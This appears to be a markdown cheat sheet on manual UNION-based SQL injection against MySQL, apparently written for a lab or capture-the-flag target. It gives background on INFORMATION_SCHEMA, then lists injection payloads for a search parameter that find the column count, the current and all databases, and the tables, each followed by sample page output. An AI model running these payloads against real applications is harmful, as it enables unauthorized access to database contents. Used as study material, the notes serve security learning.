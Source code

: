 * [`sqlmap`](#sqlmap)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)

# `sqlmap`

# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
